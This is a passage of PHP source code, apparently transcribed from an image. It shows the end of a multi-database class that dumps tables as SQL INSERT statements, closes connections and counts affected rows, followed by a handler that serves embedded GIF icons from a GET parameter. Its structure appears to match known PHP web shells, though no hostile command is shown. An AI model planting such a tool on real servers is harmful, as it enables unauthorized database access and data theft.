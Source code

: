   	  $this-&gt;dump[] = 'INSERT INTO '.$table.' ('.@implode(", ", $this-&gt;columns).') VALUES (\''.@implode("', '", $this-&gt;rows[$i]).'\');';
  	  }
    break;
    case 'Oracle':
      $this-&gt;dump[0] = '
### ORACLE dump';
      $this-&gt;dump[]  = '
### under construction';
    break;
    default:
     return 0;
    break;
    }
   return 1;
  }
 function close()
  {
   switch($this-&gt;db)
    {
  	case 'MySQL':
  	 @mysql_close($this-&gt;connection);
    break;
    case 'MSSQL':
     @mssql_close($this-&gt;connection);
    break;
    case 'PostgreSQL':
     @pg_close($this-&gt;connection);
    break;
    case 'Oracle':
     @oci_close($this-&gt;connection);
    break;
    }
  }
 function affected_rows()
  {
   switch($this-&gt;db)
    {
  	case 'MySQL':
  	 return @mysql_affected_rows($this-&gt;res);
    break;
    case 'MSSQL':
     return @mssql_affected_rows($this-&gt;res);
    break;
    case 'PostgreSQL':
     return @pg_affected_rows($this-&gt;res);
    break;
    case 'Oracle':
     return @ocirowcount($this-&gt;res);
    break;
    default:
     return 0;
    break;
    }
  }
 }
if(isset($_GET['img'])&&!empty($_GET['img']))
 {
 $images = array();
 $images[1]='R0lGODlhBwAHAIAAAAAAAP///yH5BAEAAAEALAAAAAAHAAcAAAILjI9pkODnYohUhQIAOw==';
 $images[2]='R0lGODlhBwAHAIAAAAAAAP///yH5BAEAAAEALAAAAAAHAAcAAAILjI+pwA3hnmlJhgIAOw==';
 @ob_clean();